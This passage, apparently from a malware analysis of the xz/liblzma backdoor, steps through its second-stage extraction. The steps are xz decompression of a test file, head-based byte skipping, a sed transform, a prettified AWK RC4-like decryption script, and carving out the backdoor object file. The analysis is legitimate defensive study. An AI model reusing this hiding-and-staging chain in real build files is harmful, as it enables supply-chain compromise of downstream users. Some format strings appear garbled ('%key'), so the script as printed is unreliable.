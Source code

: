 1.  The first step is identical as step 2 in Stage 1 – the tests/files/good-large\_compressed.lzma file is being extracted with xz.
2.  Second step is in turn identical as step 3 in Stage 1 – that was the "a lot of heads" "function" invocation.
3.  And here is where things diverge. First of all, the previous output get's mangled with the sed command: `LC_ALL=C sed "s/\(.\)/\1\n/g"` What this does, is actually putting a newline character after each byte (with the exception of the new line character itself). So what we end up with on the output, is a byte-per-line situation (yes, there is a lot of mixing "text" and "binary" approaches to files in here). This is actually needed by the next step.
4.  The next step is an AWK script (that's a simple scripting language for text processing) which does – as mak pointed out for me – [RC4...ish](https://en.wikipedia.org/wiki/RC4) decription of the input stream. Here's a prettyfied version of that script: `BEGIN { # Initialization part. FS = "\n"; # Some AWK settings. RS = "\n"; ORS = ""; m = 256; for(i=0;i<m;i++) { t[sprintf("x%key", i)] = i; key[i] = ((i * 7) + 5) % m; # Creating the cipher key. } i=0; # Skipping 4096 first bytes of the output PRNG stream. j=0; # ↑ it's a typical RC4 thing to do. for(l = 0; l < 4096; l++) { # 5.6.1 uses 8192 instead. i = (i + 1) % m; a = key[i]; j = (j + a) % m; key[i] = key[j]; key[j] = a; } } { # Decription part. # Getting the next byte. v = t["x" (NF < 1 ? RS : $1)]; # Iterating the RC4 PRNG. i = (i + 1) % m; a = key[i]; j = (j + a) % m; b = key[j]; key[i] = b; key[j] = a; k = key[(a + b) % m]; # As pointed out by [@nugxperience](https://twitter.com/nugxperience/status/1773906926503591970), RC4 originally XORs the encrypted byte # with the key, but here for some add is used instead (might be an AWK thing). printf "%key", (v + k) % m }`  
    
5.  After the input has been decrypted, it gets decompressed: `xz -dc --single-stream`  
    
6.  And then bytes from N (0) to W (~86KB) are being carved out using the same usual head tricks, and saved as liblzma\_la-crc64-fast.o – which is the final binary backdoor. `((head -c +$N > /dev/null 2>&1) && head -c +$W) > liblzma_la-crc64-fast.o`